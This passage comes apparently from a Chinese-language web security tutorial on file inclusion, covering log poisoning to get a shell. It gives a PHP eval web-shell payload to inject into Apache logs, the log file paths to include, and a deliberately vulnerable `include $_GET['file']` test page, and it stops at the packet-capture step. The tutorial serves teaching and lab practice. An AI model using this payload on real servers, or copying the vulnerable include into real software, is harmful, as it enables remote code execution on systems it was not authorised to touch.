 ![image-20240130134235652](08.文件包含漏洞/image-20240130134235652.png)

## 包含日志文件 getshell
### 原理分析
中间件例如 iis 、apache、nginx 这些 web 中间件，都会记录访问日志，如果访问日志中或错误日志中，存在有 php 代码，也可以引入到文件包含中。如果日志有 php 恶意代码，也可导致 getshell。
使用 burpsuite 访问GET ，填写 `<?php phpinfo();eval($_POST[cmd]);?>`
linux 日志文件权限默认是 root，而php 的权限是 www-data，一般情况下都是读取不了，如果是 windows 环境下，权限是允许的。
linux 默认的 apache 日志文件路径
访问日志：
`/var/log/apache2/access.log`
错误日志：
`/var/log/apache2/error.log`
把文件日志包含进来即可。
### 搭建测试环境
```php
<?php
include $_GET['file'];
?>
```
### 抓包测试
